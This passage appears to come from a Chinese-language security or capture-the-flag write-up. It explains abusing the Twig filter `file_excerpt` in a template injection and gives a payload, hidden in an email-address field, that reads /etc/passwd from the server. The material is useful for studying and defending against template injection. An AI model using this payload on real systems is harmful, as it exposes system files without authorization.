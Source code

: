 



这次利用的对象就是`file_excerpt`
[![img](assets/20200330133746-95ac0f94-7248-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200330133746-95ac0f94-7248-1.png)



所以payload 可以是

```php
"{{ '/etc/passwd'|file_excerpt(-1,-1)}}"@xxxx.com
```



[![img](assets/20200330133805-a129fa52-7248-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200330133805-a129fa52-7248-1.png)
